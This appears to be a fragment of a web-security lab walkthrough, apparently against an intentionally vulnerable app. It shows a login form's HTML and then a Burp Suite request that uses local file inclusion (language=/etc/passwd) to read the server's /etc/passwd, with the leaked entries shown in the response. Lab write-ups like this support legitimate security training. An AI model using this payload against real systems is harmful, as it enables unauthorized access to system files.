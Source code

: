 ```http
        <p><label for="login">Login:</label><br />
        <input type="text" id="login" name="login" size="20" autocomplete="off"></p> 

        <p><label for="password">Password:</label><br />
        <input type="password" id="password" name="password" size="20" autocomplete="off"></p>

        <p><label for="security_level">Set the security level:</label><br />

        <select name="security_level">

            <option value="0">low</option>
            <option value="1">medium</option>
            <option value="2">high</option>

        </select>

        </p>

        <button type="submit" name="form" value="submit">Login</button>

    </form>

    <br />
    
[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=/etc/passwd&action=go📌 HTTP/1.1
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 13:03:19 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14317
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
